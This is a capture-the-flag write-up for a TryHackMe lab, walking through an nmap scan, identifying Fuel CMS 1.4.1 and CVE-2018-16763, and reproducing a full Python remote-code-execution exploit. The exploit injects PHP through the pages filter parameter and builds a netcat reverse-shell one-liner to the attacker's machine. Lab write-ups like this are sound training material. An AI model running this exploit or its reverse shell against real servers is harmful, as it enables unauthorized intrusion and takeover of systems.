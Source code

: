 # Vulnerability Capstone

![](https://i.imgur.com/EBn7Nuf.png)

### Question 1
- What is the name of the application running on the vulnerable machine?
after running a scan on the IP Address i found open ports
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV 10.10.42.79 -T4     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-02 09:16 EST
Nmap scan report for 10.10.42.79
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.17 seconds
```
there is a web-server running on port `80` so i navigate to the site and found:
![](https://i.imgur.com/64K0T63.png)

### Question 2
- What is the version number of this application?
from the last screenshot we will find the answer

### Question 3
- What is the number of the CVE that allows an attacker to remotely execute code on this application?
 **Format:** CVE-XXXX-XXXXX
 ![](https://i.imgur.com/dPlwVqK.png)
searching for exploit for the service and version running i got the above result and also know that i can get RCE from the server.
if we click on the first search result we will find the CVE number
![](https://i.imgur.com/TTZiPfI.png)
i downloaded the exploit but it didn't work so i decide to use the exploit from `tryhackme` attackbox
![](https://i.imgur.com/4SRug1n.png)

###  Attackbox exploit

```python
#!/usr/bin/python3

# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763
# 
# Poc Created by Ac1d (assassin) 



import requests
import sys
import urllib

from requests.sessions import extract_cookies_to_jar

class col:
    HEADER = '\033[95m'
    BLUE = '\033[94m'
    CYAN = '\033[96m'
    GREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    RESET = '\033[0m'
    BLACK = "\033[0;30m"
    RED = "\033[0;31m"
    GREEN = "\033[0;32m"
    BROWN = "\033[0;33m"
    BLUE = "\033[0;34m"
    PURPLE = "\033[0;35m"
    LIGHT_GRAY = "\033[0;37m"
    DARK_GRAY = "\033[1;30m"
    LIGHT_RED = "\033[1;31m"
    LIGHT_GREEN = "\033[1;32m"
    YELLOW = "\033[1;33m"
    LIGHT_BLUE = "\033[1;34m"
    LIGHT_PURPLE = "\033[1;35m"
    LIGHT_CYAN = "\033[1;36m"
    LIGHT_WHITE = "\033[1;37m"
    BOLD = "\033[1m"
    FAINT = "\033[2m"
    ITALIC = "\033[3m"
    UNDERLINE = "\033[4m"
    BLINK = "\033[5m"
    NEGATIVE = "\033[7m"
    CROSSED = "\033[9m"


def banner():
    banner = r"""
 ______         _ _____ ___  ___ _____ 
|  ___|        | /  __ \|  \/  |/  ___|
| |_ _   _  ___| | /  \/| .  . |\ `--. 
|  _| | | |/ _ \ | |    | |\/| | `--. \
| | | |_| |  __/ | \__/\| |  | |/\__/ /
\_|  \__,_|\___|_|\____/\_|  |_/\____/ 
Tested on 1.4                                       
"""
    banner += "Created by Ac1d"
    return col.LIGHT_BLUE + banner + col.RESET


def help():
    banner = col.LIGHT_WHITE + "\n\tMenu\n"
    banner += col.LIGHT_GREEN
    banner += "\nexit     -\tExit app"
    banner += "\nshell_me -\tGet a reverse shell (netcat) "
    banner += "\nhelp     -\tShow this help\n"+ col.RESET
    return banner
    


print(banner())
print(help())

#http://10.10.12.27/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27ls%20-la%27)%2B%27

if len(sys.argv) != 2:
    print("\nUsage: python3 exploit.py Vulnerable IPADDRESS")
    sys.exit(0)

IP=sys.argv[1]

def parsePage(page):
    try:            
        page = page.split("<h4>A PHP Error was encountered</h4>")[0]
        page = page.split("<div")[0]
        page = page[6:]
        return page
    except:
        return False

try:
        
    while True:
        cmd = input(col.LIGHT_WHITE +"fuelCMS$ " + col.RESET)

        if cmd[0:4].lower() == "exit":
            print(col.RED + "Exiting..." + col.RESET)
            sys.exit(0)

        if cmd[0:8] == "shell_me":
            IP2, PORT = input(col.LIGHT_BLUE + "Enter your attacking machine IP:PORT $ " + col.RESET).split(":")
            nc = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {IP2} {PORT} >/tmp/f"
            cmd = nc
            print(col.LIGHT_GREEN + "\nHope you had your listener ready!!" + col.RESET)
            
        if cmd[0:4] == "help":
            print(help())
            continue
        
        if not "/tmp/f;mkfifo" in cmd:
            print(col.LIGHT_GRAY + "Sending request." + col.RESET)
        cmd = urllib.parse.quote(cmd)
        r = requests.get(f"http://{IP}/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27"+ cmd +"%27)%2B%27")
        if r.status_code == 200:
            page = parsePage(r.text)
            if page == "\n":
                print(col.RED + "No result" + col.RESET)
                continue
            print(col.LIGHT_GREEN+ f"\n{page.strip()}" + col.RESET)

except Exception as e:
    print(col.RED + f"An error occured, please try again...\n\n{e}" + col.RESET)
```

running this exploit and selecting the `shell_me` option then i specify my listening `IP:PORT` and i got a reverse shell
![](https://i.imgur.com/en6196R.png)
navigating to `/home/ubuntu` i found the flag 
![](https://i.imgur.com/TgTBD15.png)

# Thanks For Reading
